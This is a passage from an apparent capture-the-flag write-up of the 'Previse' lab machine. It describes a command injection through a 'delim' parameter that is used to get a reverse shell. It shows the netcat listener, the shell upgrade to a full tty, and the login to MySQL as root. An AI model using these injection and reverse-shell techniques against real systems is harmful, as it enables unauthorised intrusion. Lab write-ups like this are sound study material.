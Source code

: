 Then we send ourselves a reverse shell with burp in the delim parameter by chaining a command to it with `;`.

[![burp_rce](/img/previse/burp_rce.png)](/img/previse/burp_rce.png)

After recieving the shell we upgrate it to get a full tty and fix the terminal size.

```
$ nc -lvnp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.10.11.104.
Ncat: Connection from 10.10.11.104:59280.
bash: cannot set terminal process group (1447): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<tml$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@previse:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@previse:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 7575
$ stty raw -echo;fg
nc -lvnp 7575

www-data@previse:/var/www/html$ stty rows 55 cols 236
```

## Database hash

Since we have the database credentials we can now connect to it.

```
www-data@previse:/var/www/html$ mysql -u root -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 26
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```
